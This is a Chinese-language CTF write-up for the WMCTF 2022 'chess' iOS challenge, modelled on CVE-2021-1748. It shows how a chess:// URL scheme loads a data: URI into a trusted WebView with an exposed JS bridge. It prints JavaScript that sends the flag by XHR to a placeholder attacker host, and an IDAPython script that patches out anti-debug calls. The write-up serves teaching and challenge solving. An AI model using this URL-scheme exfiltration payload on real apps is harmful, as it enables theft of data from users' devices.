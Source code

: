 ```yaml
---
title: WMCTF 2022 挑战赛 chess writeup
publish_date: 2022-10-26
---
```


### 写在前面

有幸受邀给 WMCTF 2022 出一道客户端的赛题。而传统的客户端 CTF 一般无论是以游戏的形式展示或者单纯一个输入框，都是客户端内置了一个算法，需要选手去逆向这个算法来拿到 flag。受到 Real World CTF 2019 中 [DezhouInstrumenz](https://github.com/ChiChou/DezhouInstrumenz) 的启发，决定出一个贴近真实环境的，真正能给选手挖洞提供思路参考的题目。于是就有了这道参考**著名白帽黑客 CodeColorist 的 CVE-2021-1748 来出的一道题目**（由于该 CVE 影响范围较广且具有比较严重的危害，所以题目进行了一定的魔改）。

### 解题过程

首先拿到 IPA 解压缩之后发现在 Bundle 中存在一个名为 flag 文件，文件内容为 {placeholder}。且根据赛题得知有一台真实 iPhone 在后端运行，则可知存在真正的 flag 的 App 正运行在该 iPhone 当中。

查看 Bundle 中的 Info.plist 文件可发现应用注册一个 URL Scheme，为 `chess://`：

![6303269930df1](../wmctf_2022_chess_writeup/6303269930df1.png)

将二进制扔到 IDA 进行分析，查看应用 URL Scheme 的关键回调逻辑：

![image.png](../wmctf_2022_chess_writeup/630339a0499fe.png)

继续跟进 `_showExternalURL`：

![image.png](../wmctf_2022_chess_writeup/630339df7bb9e.png)

代码中存在两处内联汇编的反调试逻辑，选手可以通过静态匹配特征来 patch：

![image.png](../wmctf_2022_chess_writeup/63033a628fe0e.png)

在 `showExternalURL` 函数中遇到第一个判断：

![image.png](../wmctf_2022_chess_writeup/63033b492377b.png)

通过动态调试跟进函数看下判断的逻辑：

![image.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_16-20-07.png)

该部分代码大意为：如果 URL 的参数中存在 urlType=exit 或者 search 或者 web 时则返回 true。

当判断返回 true 时则跳进第一个分支 `_legacyResolveExternalURL` 函数中：

![image.png](../wmctf_2022_chess_writeup/63033d22e1f7d.png)

继续跟进 `resolveURL` 函数中：

![Xnip20220822_162741.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_16-27-41.png)

在 `_showAccountViewControllerWithURL` 函数中会先取传入 URL 中的 url 参数字段，并弹出新的控制器进行加载：

![image.png](../wmctf_2022_chess_writeup/63033ef006333.png)

我们可以看到新弹出的控制器是用`UIHostingController` 包装的 `ContentWebView`。

在 SwiftUI 中如何实现一个 WebView 参考链接：https://www.appcoda.com/swiftui-wkwebview/

寻找 `makeUIView` 函数来看下应用是如何处理构造 URLRequest 的，关键代码：

![image.png](../wmctf_2022_chess_writeup/630340ae598cc.png)

先调用了 `_URLByRemovingBlacklistedParametersWithURL` 函数，在该函数中进行了一些特殊符号的过滤，并且在 URL 的结尾添加了一个 `?` 符号。

接下来调用 `urlIsTrusted` 进行了一次判断：

![image.png](../wmctf_2022_chess_writeup/63034fae242c0.png)

在该函数中存在一段逻辑，当传入的 URL 的 Scheme 为 data 时，则返回  true。也就是说当传入 URL 是个 Data URi 时则认为该 URL 是个可信的 URL。

当传入的 URL 是一个可信 URL 时，则调用 `injectScriptInterface` ，并且加载 URL：

![image.png](../wmctf_2022_chess_writeup/630350565b093.png)

让我们跟进 `injectScriptInterface` 看下关键逻辑：

![Xnip20220822_175321.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_17-53-21.png)

可以看到将 `WMScriptInterface` 类的方法导出到 js 上下文中，这些 API 被放在全局作用域的 `wmctf` 命名空间里。

然后我们在 IDA 中搜索，惊喜的发现有个 `-[chess.WMScriptInterface _getFlag]` 的函数：

![image.png](../wmctf_2022_chess_writeup/630352619b9c1.png)

此时我们得知可以一个构造 payload 然后通过 URL Scheme 调起 chess 客户端，并执行 `wmctf.$_getFlag()` 来获取到 flag。

构造生成 Payload 的 js 代码：

```javascript
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://XXX/test?flag=' + wmctf.$_getFlag(), false); xhr.send();
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('chess://x?urlType=web');

url.searchParams.set('url', data);
url.toString()
```

只要将该 URL Scheme 提交（我写了个 webserver，用来接收 payload 并在设备执行），则会在设备执行，并且将 flag 发送到攻击者的服务器。

IDAPython Ptach `svc 0x80`:

```python
import idc
def text_seg_addr_start():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegStart(seg))
            print("text segment address start: " + addr)
            return int(addr[0:-1], 16)
def text_seg_addr_end():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegEnd(seg))
            print("text segment address end: " + addr)
            return int(addr[0:-1], 16)       
start = text_seg_addr_start()
end = text_seg_addr_end()
while start < end:
    m = idc.print_insn_mnem(start)
    n = idc.print_operand(start, 0)
    if m == 'SVC' and n == '0x80':
        # print(idc.GetDisasm(start))
        if idc.print_operand(idc.prev_head(start), 1) == '#0x1A':
            idc.PatchDword(start, 0xD503201F)
            print("patch {} success!".format(hex(start)))
    start += 4
```

### 彩蛋：

当用 js 调用 wmctf 命名空间中一个不存在的方法时，则会返回一段 base64 编码的图片字符串！

### 参考资料

https://codecolor.ist/2021/08/04/mistuned-part-i/
https://developer.apple.com/documentation/objectivec/nsobject/webscripting?language=objc
https://developer.apple.com/documentation/objectivec/nsobject/1528539-webscriptname/
https://developer.apple.com/library/archive/documentation/AppleApplications/Conceptual/SafariJSProgTopics/ObjCFromJavaScript.html